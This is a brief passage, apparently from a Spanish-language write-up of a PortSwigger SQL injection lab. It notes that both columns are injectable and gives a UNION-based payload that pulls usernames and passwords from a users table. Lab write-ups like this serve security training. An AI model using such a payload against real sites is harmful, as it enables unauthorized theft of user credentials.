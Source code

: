 ![](/assets/img/ps-writeup-sqli/ps-lab9_9.png)

Dado que ambas columnas son injectables puedo utilizar esta query.

```sql
' union select username,password from users--
```
